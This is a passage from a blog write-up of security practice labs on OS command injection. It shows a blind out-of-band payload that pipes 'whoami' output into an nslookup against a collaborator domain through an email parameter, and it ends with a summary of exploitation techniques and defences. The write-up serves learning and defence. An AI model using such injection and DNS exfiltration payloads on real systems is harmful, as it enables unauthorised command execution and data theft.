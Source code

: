 Description:

This is similar to the previous lab where we need to submit the output of `whoami` to solve the lab.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022010933.png)

Explanation:

As before, we intercepted the request. We know that the `email` parameter is vulnerable. 

We can put in the payload - "|| nslookup `whoami`.<BURP COLLABORATOR URL> ||" with `email` parameter and send the request.

Note that whoami is in backticks like `whoami`. I can't put that in the blog because of markdown syntax.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022011210.png)

We can see the response for the DNS lookup on the collaborator. The DNS query looked weird to me, so I ran it once more.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022011422.png)

Turns out the output is in `Description` tab.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022011529.png)

We click on the Submit Solution button and put the output in the popup.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022011618.png)

This solves the lab.

![](/assets/images/OSCommandInjection/Pasted%20image%2020251022011708.png)

## Conclusion

These 5 labs demonstrated the various facets of OS command injection, from straightforward in-band attacks to sophisticated blind techniques. Key takeaways include:

- Command Separators Matter: Understanding `|`, `||`, `&&`, and `;` is crucial for successful exploitation
- Pipe Operator is Powerful: The simple `|` operator often works when others fail
- Blind Doesn't Mean Unexploitable: Time delays, output redirection, and out-of-band channels make blind injection practical
- Out-of-Band is Reliable: DNS lookups via nslookup provide a consistent exfiltration channel
- Command Substitution Works: Backticks and $() enable data exfiltration in single requests

OS command injection remains one of the most critical vulnerabilities because it can lead to complete system compromise. The progression from basic injection to blind techniques showed that even when direct output isn't visible, attackers have multiple methods to confirm and exploit the vulnerability.

The best defense is avoiding shell command execution entirely—using native language functions and APIs instead. When system commands are unavoidable, strict input validation, proper escaping, and running applications with minimal privileges become essential layers of protection.

Moving forward, understanding command injection provides valuable context for related vulnerabilities like Server-Side Template Injection (SSTI) and deserialization attacks, which I'll be exploring in upcoming labs.